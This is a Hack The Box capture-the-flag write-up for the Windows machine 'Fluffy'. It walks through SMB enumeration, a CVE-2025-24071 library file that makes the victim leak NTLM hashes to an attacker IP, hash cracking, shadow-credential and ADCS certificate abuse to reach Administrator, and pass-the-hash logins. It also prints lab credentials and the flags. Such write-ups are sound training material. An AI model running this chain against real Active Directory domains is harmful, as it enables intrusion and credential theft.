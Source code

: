 ```yaml
---
title: "HTB Machine : Fluffy"
description: Fluffy is an easy Windows machine on HTB. Initial access is achieved with valid credentials. Active Directory enumeration and abuse of service account permissions allow privilege escalation to Administrator via ADCS abuse.
image: /images/Fluffy/Fluffy.png
date: 2025-05-25 04:47:00 +/-TTTT
categories: [HTB]
tags: [HTB, Windows, NTLM relay, pentest ]
---
```


## Initial Credentials

As is common in real-life Windows pentests, we start **Fluffy** with the following credentials:

```text
Username: j.fleischman
Password: J0elTHEM4n1990!
```

### Enumeration

#### Nmap Scan

```bash
$ nmap -sV -sC 10.10.11.69 -oN fluffy.nmap
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-25 04:47 CEST
Nmap scan report for 10.10.11.69
Host is up (0.032s latency).
Not shown: 995 closed tcp ports
PORT     STATE SERVICE      VERSION
53/tcp   open  domain?      
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-05-25 04:47:11Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows 10 Pro 17763 (domain: fluffy.htb)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC01; OS: Windows; Domain: fluffy.htb
```

We add the domain to `/etc/hosts`:

```bash
$ echo "10.10.11.69   dc01 dc01.fluffy.htb fluffy.htb" | sudo tee -a /etc/hosts
[sudo] password for zenon:
10.10.11.69   dc01 dc01.fluffy.htb fluffy.htb
```

---

#### Active Directory Enumeration with BloodHound

```bash
$ faketime "$( ntpdate -q 10.10.11.69 | awk '/^[0-9]/ { print $1" "$2; exit }')" \
bloodhound-python -u j.fleischman -p 'J0elTHEM4n1990!' -d fluffy.htb -ns 10.10.11.69 -c all --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: fluffy.htb
INFO: Compressing output into 20250525044711_bloodhound.zip
```

This confirms the domain, users, groups, and computers are enumerated.


---

#### SMB Shares Enumeration

```bash
$ nxc smb fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' --shares
SMB 10.10.11.69 445 DC01 [+] fluffy.htb\j.fleischman:J0elTHEM4n1990!
Enumerated shares:
ADMIN$  Remote Admin
C$      Default share
IPC$    READ Remote IPC
IT      READ,WRITE
NETLOGON READ Logon server share
SYSVOL  READ Logon server share
```

We access the `IT` share:

```bash
$ smbclient -U 'j.fleischman%J0elTHEM4n1990!' //10.10.11.69/IT/
smb: \> ls
  Everything-1.4.1.1026.x64/
  KeePass-2.58/
  Upgrade_Notice.pdf
  hook.lnk
  testing.lnk
smb: \> get Upgrade_Notice.pdf
getting file \Upgrade_Notice.pdf of size 169963 as Upgrade_Notice.pdf
```

---

### Exploitation: CVE-2025-24071 (File Explorer Spoofing)

We find a local exploit for **Windows File Explorer Spoofing**:

```bash
$ python3 exploit.py -i 10.10.14.70 -f revshell
Creating exploit with filename: revshell.library-ms
Target IP: 10.10.14.70
✓ Library file created successfully
✓ ZIP file created successfully
```

Upload it to the target SMB share:

```bash
$ smbclient -U 'j.fleischman%J0elTHEM4n1990!' //10.10.11.69/IT/ -c 'put exploit.zip'
putting file exploit.zip as \exploit.zip
```

---

### Capturing NTLM Hashes

```bash
$ sudo responder -I tun0 -v
[+] Listening for events...
[SMB] NTLMv2-SSP Client : 10.10.11.69
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:a52de324b1281693:...
```

Crack the hash with **hashcat**:

```bash
$ hashcat -a 0 hash.txt /opt/rockyou.txt --show
p.agila:prometheusx-303
```

> **Note:** `p.agila` is part of `SERVICE ACCOUNT MANAGERS`, giving **GenericAll** privileges on `SERVICE ACCOUNTS`.

![alt text](/images/Fluffy/genall.png)

![alt text](/images/Fluffy/serviceacc.png)
---

### Active Directory Exploitation

Add `p.agila` to the `SERVICE ACCOUNTS` group:

```bash
$ bloodyAD -u p.agila -p 'prometheusx-303' --dc-ip 10.10.11.69 add groupMember 'SERVICE ACCOUNTS' p.agila
[+] p.agila added to SERVICE ACCOUNTS
```

We use **Certipy** to get `WINRM_SVC` credentials:

```bash
$ faketime "$( ntpdate -q 10.10.11.69 | awk '/^[0-9]/ { print $1" "$2; exit }')" \
certipy-ad shadow -u p.agila -p 'prometheusx-303' -dc-ip 10.10.11.69 auto -account 'WINRM_SVC'
[*] NT hash for 'winrm_svc': 33bd09dcd697600edf6b3a7af4875767
```

Login via WinRM:

```bash
$ evil-winrm -i fluffy.htb -u 'winrm_svc' -H 33bd09dcd697600edf6b3a7af4875767
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> type desktop/user.txt
e10ecd5f1dadc0980056f90d3943d21d
```

---

### Privilege Escalation via ADCS Abuse

```bash
$ faketime "$( ntpdate -q 10.10.11.69 | awk '/^[0-9]/ { print $1" "$2; exit }')" \
certipy-ad shadow -u p.agila -p 'prometheusx-303' -dc-ip 10.10.11.69 auto -account 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8
```

Update `ca_svc` to request Administrator certificate:

```bash
$ certipy-ad account -u ca_svc -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 \
-upn 'administrator@fluffy.htb' -user 'ca_svc' update
[*] Successfully updated 'ca_svc'

$ certipy-ad req -u 'ca_svc' -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 \
-target 'DC01.fluffy.htb' -ca 'fluffy-DC01-CA' -templat 'User'
[*] Got certificate with UPN 'administrator@fluffy.htb'
[*] Saved certificate: administrator.pfx
```

Authenticate with the Administrator certificate:

```bash
$ certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.69 -username 'administrator' -domain 'fluffy.htb'
[*] Got NT hash for 'administrator@fluffy.htb': 8da83a3fa618b6e3a00e93f676c92a6e
```

Login as Administrator:

```bash
$ evil-winrm -i 10.10.11.69 -u administrator -H 8da83a3fa618b6e3a00e93f676c92a6e
*Evil-WinRM* PS C:\Users\Administrator> type desktop/root.txt
d5b15c491f99f742bb2902b9e90e3456
```

---

**Summary:**

* User: `winrm_svc` via NTLM relay and Certipy
* Administrator: `ca_svc` abuse + ADCS certificate request
* Root flag obtained: `d5b15c491f99f742bb2902b9e90e3456`


